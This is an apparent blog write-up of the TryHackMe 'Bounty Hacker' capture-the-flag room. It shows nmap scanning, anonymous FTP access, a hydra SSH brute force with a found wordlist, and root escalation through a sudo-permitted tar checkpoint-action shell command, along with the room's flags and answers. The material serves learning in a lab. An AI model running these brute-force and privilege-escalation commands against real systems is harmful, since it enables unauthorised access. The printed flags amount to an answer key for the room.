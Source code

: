 ```yaml
---
title: "[CTF] Tryhackme - Bounty Hacker "
date: 2024-09-18 12:00:00 -500 
categories: [CTF - Tryhackme, Bounty Hacker]
tags: [ctf,exploit,flags,tryhackme,pentesting]
author: Christoph K
---
```

[TryHackMe- Bounty Hunter ](https://tryhackme.com/r/room/cowboyhacker)


# Questions:

1. Find open ports on the machine
2. Who wrote the task list? 
3. What service can you bruteforce with the text file found?
4. What is the users password? 
5. user.txt
6. root.txt



### Find open ports on the machine & Who wrote the task list? 


Like in the most of the CTF challenges, lets scan the target via `nmap`.


```bash

└─$ nmap -sV $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-19 17:54 CST
Nmap scan report for 10.10.112.254
Host is up (0.22s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.23 seconds


```

We have 3 open ports here - ports `21, 22, 80 `

First I would try to discover as much as possible. Lets check the webpage and the ftp port.

```html
<h3>Spike:"..Oh look you're finally up. It's about time, 3 more minutes and you were going out with the garbage."</h3>

<hr>

<h3>Jet:"Now you told Spike here you can hack any computer in the system. We'd let Ed do it but we need her working on something else and you were getting real bold in that bar back there. Now take a look around and see if you can get that root the system and don't ask any questions you know you don't need the answer to, if you're lucky I'll even make you some bell peppers and beef."</h3>

<hr>

<h3>Ed:"I'm Ed. You should have access to the device they are talking about on your computer. Edward and Ein will be on the main deck if you need us!"</h3>
```



There was no helpful clue for me on the webpage so lets move to ftp. As always with `ftp` we try  `anonymous`first. And we get a `230` - Login successful.

```bash

┌──(admin㉿PREDATOR-01)-[~]
└─$ ftp $ip
Connected to 10.10.112.254.
220 (vsFTPd 3.0.3)
Name (10.10.112.254:admin): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Lets see what we got here.
```bash
ftp> dir
229 Entering Extended Passive Mode (|||43549|)
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |**************************************************************************************************************************************|    68      922.30 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.30 KiB/s)
```

And in the `task.txt` is :
```
└─$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

We have our author from the file.



Answer:`lin`

###  What service can you bruteforce with the text file found?

With an `user` we can try to bruteforce the password with `hydra` on `ssh`. 


Answer: `ssh`


### What is the users password?

Lets `bruteforce`the password with `hydra`! We had a file called `locks.txt` on the ftp server. It looks like potential passwords in there, so we use it as `wordlist`.



```bash

─$ head locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
```

Lets bruteforce :-) 
```bash


└─$ hydra -l lin -P locks.txt ssh://$ip
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-19 18:53:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.112.254:22/
[22][ssh] host: 10.10.112.254   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-19 18:53:08

```

And we found our password.

Password: `RedDr4gonSynd1cat3`



### user.txt

With our fresh bruteforced credentials we login into `ssh` and search for the `user.txt`

```bash

┌──(admin㉿PREDATOR-01)-[~]
└─$ ssh lin@$ip -p 22
The authenticity of host '10.10.112.254 (10.10.112.254)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.112.254' (ED25519) to the list of known hosts.
lin@10.10.112.254's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}

```

Very nice, we have our `user flag`.


Answer: `THM{CR1M3_SyNd1C4T3}`


 

### root.txt



We check again, what we can do as our user with `sudo -l`

It shows us, that `lin` can use `tar`with privileged permissions. We can use that to spawn an elevated shell.

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin:
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

https://gtfobins.github.io/gtfobins/tar/

We use the command from `gtfobins` 

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`


```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cd /root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
```

And we got it:

Answer: `THM{80UN7Y_h4cK3r}`

## Thoughts:
This CTF is very beginner friendly and I liked it very much. I think it could be better if it had also some web vulnerabilities.

What did we learn?
- using `nmap` for scan open ports and versions
- using `ftp` for browsing in files.
- using `hydra` to bruteforce
- using `tar` to spawn an interactive shell





